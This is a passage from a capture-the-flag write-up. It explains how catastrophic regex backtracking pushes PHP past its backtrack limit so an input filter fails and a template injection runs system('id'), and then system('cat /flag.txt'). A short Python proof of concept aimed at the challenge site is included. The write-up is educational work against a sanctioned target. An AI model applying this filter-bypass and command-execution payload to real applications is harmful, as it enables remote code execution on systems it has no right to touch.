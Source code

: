I had two options to get there:
1) Send a load of shit and pray.
2) Reflect on which points the regex was backtracking the most and give calculated weight to those weak points.

Since I didn't want to destroy the challenge's infrastructure, I opted for the latter.

First of all, we need to put pressure on the Explosive Quantifier `*` that we can find in the first part of the regex:

```regex
(\b)(on\S+)(\s*)=
```

Let's start by matching the word boundary (`\b`) , meaning that the matching group that comes after will be captured as a whole word.  
Then we need to match the "on" and we're ready to give our Christmas gift of "X" characters to the quantifier explosive "\*", which will match all the "X" characters, moving the pointer forward by `n` positions where `n` is the number of our "X" characters.  
This is the opposite of what would have happened with the "greedy" quantifier ( `*?`), which would have halved the number of iterations.
It seems complicated, so let's go and visualize it on [regex101](https://regex101.com/) using the debugger.


Ok, let's craft something evil now.  
We need at least 100k iterations. Easy. Let's fill the payload with `'X'*100_000`... buuut it's not working.  
Why?  
Well, in regex terms, we're not actually doing 100k "recursions", but instead we're counting "backtracking steps", which as the [PHP documentation](https://www.php.net/manual/en/pcre.configuration.php#ini.pcre.recursion-limit) states it defaults to 1_000_000 (1M) in the `pcre.backtrack_limit` variable.   
To reach that, `'X'*500_001` will result in 1 million backtracking steps (500k forward and 500k backwards).  

Let's try.
```python
payload = f"@dimariasimone on{'X'*500_001} {{system('id')}}"
```

![](./img/payloadworks.png)

Profit!

### 2.2) PoC

```python
import requests

URL = 'https://challenge-1223.intigriti.io/challenge.php'
data={'data':f"@dimariasimone on{'X'*500_001} {{system('cat /flag.txt')}}"}
#print(data)
r = requests.post(URL, data=data)
print(r.text.split(' ')[-1])
```
